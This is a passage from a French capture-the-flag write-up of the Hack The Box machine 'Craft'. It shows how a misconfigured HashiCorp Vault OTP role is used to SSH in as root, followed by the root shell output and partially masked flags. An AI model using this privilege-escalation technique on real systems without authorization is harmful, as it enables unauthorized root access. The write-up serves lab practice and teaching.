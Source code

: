 - On utilise la commande SSH pour se connecter : `gilfoyle@craft:~$ vault ssh -role root_otp -mode otp root@127.0.0.1`
- Cf https://www.vaultproject.io/docs/commands/ssh.html

```
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: bd254a4f-a8b9-1ec8-ae01-388c2bbe0c5f

Password : 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# Proof

- User : bbf4b0cadfa3XXXXXXXXXX9cd5a612d4
- Root : 831d64ef54d9XXXXXXXXXXae28a11591